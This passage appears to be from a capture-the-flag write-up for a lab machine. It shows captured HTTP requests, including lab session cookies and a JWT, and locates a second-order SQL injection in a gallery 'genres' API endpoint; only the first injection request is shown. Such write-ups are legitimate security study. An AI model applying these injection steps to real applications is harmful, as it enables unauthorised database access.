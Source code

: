 ```
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6InpDMlFzSXpFQ2ljdnV5RHBQNTIwaEE9PSIsInZhbHVlIjoiUUwvWExrUDE2cVdlbEdteWtZY0Yzbkt1dUdSRG5JeFdvcll1WEZDMXRkUW9GZTN0WTZkTXpNMFg3ZlJ0UERGS1ZyNU55S0t3bUpmRXV5VkRRVDB1bG1tWmc0NXJYNUF4aE9zdmtDa2ZWTnNIRTYvZVM1MlZRdE1SL0VaaUFKM0oiLCJtYWMiOiJiMTM2OGU4MDA0ODYzZjk1NWNlNmMwNTllMzY0NGU4OTYzZGM3NzJhYjM5NDEyYjBhOTIwYzIzMzIyYTA3MTIyIiwidGFnIjoiIn0=
Content-Length: 47
Origin: http://10.129.170.72
DNT: 1
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6InpDMlFzSXpFQ2ljdnV5RHBQNTIwaEE9PSIsInZhbHVlIjoiUUwvWExrUDE2cVdlbEdteWtZY0Yzbkt1dUdSRG5JeFdvcll1WEZDMXRkUW9GZTN0WTZkTXpNMFg3ZlJ0UERGS1ZyNU55S0t3bUpmRXV5VkRRVDB1bG1tWmc0NXJYNUF4aE9zdmtDa2ZWTnNIRTYvZVM1MlZRdE1SL0VaaUFKM0oiLCJtYWMiOiJiMTM2OGU4MDA0ODYzZjk1NWNlNmMwNTllMzY0NGU4OTYzZGM3NzJhYjM5NDEyYjBhOTIwYzIzMzIyYTA3MTIyIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjVBN1BCYzVGRDkxVXpldU5kaDhRWXc9PSIsInZhbHVlIjoicHAyZG5qTDdSVFpOZzNES202WkZxZXM1cWxDT1dJeEZEb3AxdGNCa3l6NTY2RDVndEM4RXZXOGx6Njd4bm1rZXRaa2xyenUyQjl3ajVVT0d4TEFOY1VnaldObkRQalY3dnoxajhIeGRuMS9xbWMvWWQwc203MFNZL0RIRitPYnIiLCJtYWMiOiIyM2FiZWJjZDY1ODdjNWJkY2FhYzU1MmQ3ODBmYTVhNDExMTg3MjgwOGE4NGFiNzY0ODVmMTgwZjc4OTIwYzNhIiwidGFnIjoiIn0%3D

{"email":"test@test.com","password":"password"}
```
# SQL Injection

The genres field appears to be injectable. Second order injection is required as the data is pulled from the user feed endpoint. The injection point is located on the genres endpoint. The below requests were used to solve the problem.

# SQL Injection - First request
```
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.129.157.82
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.157.82/gallery
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6InBYUngxR20yengyandXelU2SS8rOHc9PSIsInZhbHVlIjoiRjA5NVdoV0YyMVVkdThkbjJTbVJ5NGMyYklHYTMxQmx4S25HY0NCQ3ZiUk1RY3BuNDA4WW85MDduZkM0ZjdxemlSblFsSkZ2cjdjKzRsN0hFd3FLQ0hlZGVBbVBlQTJJUzdmWGhrSFNzVk1naFdTYnhpc1ZkSzZ3NHk2d3NjMkgiLCJtYWMiOiI2ZGU1OGY0NDA1NGEyYzE2ZWUyYTBmODg5YTUzMDM0MTg0MzNkMzNmNDM5NWUzOWM3Y2FkZDE4ODQ1M2JjNWQxIiwidGFnIjoiIn0=
Content-Length: 22
Origin: http://10.129.157.82
DNT: 1
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6InBYUngxR20yengyandXelU2SS8rOHc9PSIsInZhbHVlIjoiRjA5NVdoV0YyMVVkdThkbjJTbVJ5NGMyYklHYTMxQmx4S25HY0NCQ3ZiUk1RY3BuNDA4WW85MDduZkM0ZjdxemlSblFsSkZ2cjdjKzRsN0hFd3FLQ0hlZGVBbVBlQTJJUzdmWGhrSFNzVk1naFdTYnhpc1ZkSzZ3NHk2d3NjMkgiLCJtYWMiOiI2ZGU1OGY0NDA1NGEyYzE2ZWUyYTBmODg5YTUzMDM0MTg0MzNkMzNmNDM5NWUzOWM3Y2FkZDE4ODQ1M2JjNWQxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IkJoWHJXblY2c0hZMldmZkNnb2J3QkE9PSIsInZhbHVlIjoiMzA3aU5nc2swS2dSMmwzT3dibVROMm5IRFRUck5xaUg5U2FyZHJMSTdDb3R1M1FjWXlBMG9qaEI2eFJOY2cyWXU5SGo3dzFiL3dLZzEvNnVGeFovT0FrRTdlanVldjZMd3NmUjUrQmRHRDdkWE9FT1hZRCs5aHlHdVZMWmt3cE4iLCJtYWMiOiI0MmUwOGQyY2VhNjZjMDg3ZDY5MzZiMTM0MzhjYzU1MTJhNDc2MzAwNmQ3ODZhYjdmNmE5ZGYzODI1MWNlY2VhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE1Ny44Mi9hcGkvdjEvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODMzNTgyOSwiZXhwIjoxNjg4MzU3NDI5LCJuYmYiOjE2ODgzMzU4MjksImp0aSI6IjVaWTRhYmJzTHJpeFl4cGciLCJzdWIiOiIzMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.VxW7rkDBjacovDeykLxJNrsOKPXnWFwrbsrgh7p5aPo

{"genres":"*"
}
```